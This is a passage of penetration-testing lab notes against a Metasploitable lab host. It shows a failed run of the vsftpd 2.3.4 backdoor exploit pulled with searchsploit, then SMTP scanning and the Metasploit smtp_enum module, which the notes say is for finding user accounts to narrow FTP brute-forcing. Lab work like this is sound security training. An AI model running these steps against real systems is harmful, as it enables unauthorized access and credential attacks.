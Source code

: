 ```bash
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> bye
221 Goodbye.

```



**exploit ftp**

```bash
root@attackdefense:~# searchsploit -m 49757
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
File Type: Python script, ASCII text executable

Copied to: /root/49757.py


root@attackdefense:~# chmod +x 49757.py 
root@attackdefense:~# python3 49757.py 10.4.23.234 
Traceback (most recent call last):
  File "/root/49757.py", line 37, in <module>
    tn2=Telnet(host, 6200)
  File "/usr/lib/python3.9/telnetlib.py", line 218, in __init__
    self.open(host, port, timeout)
  File "/usr/lib/python3.9/telnetlib.py", line 235, in open
    self.sock = socket.create_connection((host, port), timeout)
  File "/usr/lib/python3.9/socket.py", line 844, in create_connection
    raise err
  File "/usr/lib/python3.9/socket.py", line 832, in create_connection
    sock.connect(sa)
ConnectionRefusedError: [Errno 111] Connection refused
```

this exploit did not work because it has been patched. the backdoor that was listening on port 6200 was removed.





**SMTP bruteforce to get system accounts using metasploit `auxiliary/scanner/smtp/smtp_enum`**

smtp provides us with an easy way of identifying user accounts on linux. it can help us to narrow bruteforce attack and get valid credentials  to access the victim via ftp

```bash
root@attackdefense:~# nmap 10.4.23.234 -sV -p25
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-13 22:01 IST
Nmap scan report for demo.ine.local (10.4.23.234)
Host is up (0.0095s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
Service Info: Host:  metasploitable.localdomain

===============================================================================================================================
msf6 > use auxiliary/scanner/smtp/smtp_enum
msf6 auxiliary(scanner/smtp/smtp_enum) > options 

Module options (auxiliary/scanner/smtp/smtp_enum):

   Name       Current Setting                                                Required  Description
   ----       ---------------                                                --------  -----------
```